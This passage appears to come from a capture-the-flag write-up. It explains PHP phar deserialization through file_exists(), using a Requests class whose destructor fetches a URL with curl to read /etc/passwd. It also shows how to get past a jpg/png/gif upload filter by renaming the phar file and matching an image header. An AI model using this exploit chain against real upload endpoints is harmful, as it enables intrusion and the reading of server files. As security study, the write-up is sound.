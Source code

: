 We have created phar file that read "/etc/passwd".

Now, let's check if /etc/passwd is normally read in the **file_exists**.

```php
ini_set('phar.readonly',0);
class Requests{
    public $url;

    function __construct($url){
        $this->url = $url;
    }
    function __destruct(){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $this->url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        $output = curl_exec($ch);
        echo $output;
    }
}

file_exists("phar://phar.phar");
```

![](https://raw.githubusercontent.com/SeahunOh/seahunoh.github.io/master/assets/images/cat_proxy1.png)

Successfully read!!!

However, image file we can upload are jpg, jpeg, gif, png.

```php
// in uploadThumbnail.php 
$allowExt = Array('jpg','jpeg','png','gif');
    $fname = $_FILES['thumb']['name'];
    $fname = array_pop(explode('./',$fname));
    if(file_exists(urldecode($fname))){

        echo "<script>alert('Already uploaded file.\\nPlease change filename.');history.back();</script>";
    }else{
        $ext = strtolower(array_pop(explode('.',$fname)));
        if($_FILES['thumb']['error'] !== 0){
            die("<script>alert('Upload Error!');history.back();</script>");
        }
        if(!in_array($ext, $allowExt)){
            die("<script>alert('Sorry, not allow extension.');history.back();</script>");
        }
```

Fortunately phar is not sensitive to extensions.

```php
file_exists("phar://phar.jpg");
```

Now you need to match the header.
